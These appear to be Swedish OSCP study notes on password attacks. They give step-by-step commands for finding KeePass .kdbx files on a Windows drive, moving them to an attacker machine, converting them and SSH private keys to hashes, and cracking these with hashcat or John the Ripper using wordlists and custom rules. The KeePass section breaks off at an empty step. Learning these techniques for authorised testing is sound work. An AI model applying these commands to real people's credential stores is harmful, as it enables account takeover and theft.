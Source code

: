```yaml
---
{"dg-publish":true,"permalink":"/oscp/7-password-attacks/4-kee-pass-and-ssh-key-crack/"}
---
```


### KeePass Hash Crack:
1. Lokalisera databas-filen:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
2. För över filen till Linux.
3. Konvertera den till hash-format:
```bash
keepass2john Database.kdbx > keepass.hash
```
4. Redigera filen och ta bort eventuellt "användarnamn"
5. Ta reda på hash-ID:t för Hashcat:
```bash
hashcat --help | grep -i "KeePass"
```
6. Förbered eventuell regel fil som '.rule'
7. Cracka skiten:
```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
8. Öppna databasen med "kpcli":
```

```

------------------

### SSH-key Crack:
1. Lokalisera id_rsa-fil och för över till lokal angriparmaskin.
2. Konvertera till hash-format:
```bash
ssh2john id_rsa > ssh.hash
```
3. Skapa regelfil om behövs, och lägg till obligatorisk första rad. Ex.
```
[List.Rules:<regelnamn>]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
4. Appenda nya regelfilen till /etc/john/john.conf:
```bash
sudo sh -c 'cat <regelfil> >> /etc/john/john.conf'
```
5. Cracka skiten:
```bash
john --wordlist=<ordlista> --rules=<regelnamn> ssh.hash
```

---------------------

### John hash-cracking:
``` bash
#Ta reda på hashtypen
hashid -e -j '<hash>'
hash-identifier <hash>

#Cracka med dictionary
john --wordlist=rockyou.txt --rules=regelnamn --format=<hashidformat> hash.txt

#Visa hashen igen
john --show pass.txt
```

Best john rules: https://charlesreid1.com/wiki/John_the_Ripper/Rules#Install_the_Rules

List all John rules:
```
for ruleset in `grep KoreLogicRules /etc/john/john.conf | cut -d: -f 2 | cut -d\] -f 1`; do echo ${ruleset}; done
```

